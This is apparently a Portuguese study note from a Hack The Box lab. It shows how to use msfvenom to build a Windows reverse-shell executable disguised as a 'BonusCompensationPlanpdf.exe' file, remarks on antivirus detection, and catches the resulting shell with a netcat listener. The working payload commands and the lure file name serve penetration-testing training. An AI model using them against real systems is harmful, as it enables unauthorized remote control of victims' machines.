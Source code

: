 Esse mesmo conceito pode ser usado para criar cargas úteis para várias plataformas, incluindo o Windows.

## Construindo uma carga útil stageless simples para um sistema Windows

Também podemos usar o msfvenom para criar um executável (Arquivo `.exe` ) que pode ser executado em um sistema Windows para fornecer um shell.

#### Carga útil do Windows

```shell-session
casluxd@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

A sintaxe do comando pode ser dividida da mesma maneira que fizemos acima. As únicas diferenças, é claro, são as `platform` (`Windows`) e formato (`.exe`) da carga útil.

## Executando uma carga útil simples e sem palco em um sistema Windows

Essa é outra situação em que precisamos ser criativos para que essa carga útil seja entregue a um sistema de destino. Sem nenhum `encoding` ou `encryption`, a carga útil neste formulário quase certamente seria detectada pelo Windows Defender AV.

![[Pasted image 20230704205059.png]]

Se o AV estivesse desativado, tudo o que o usuário precisaria fazer seria clicar duas vezes no arquivo a ser executado e teríamos uma sessão de shell.

```shell-session
casluxd@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free
```


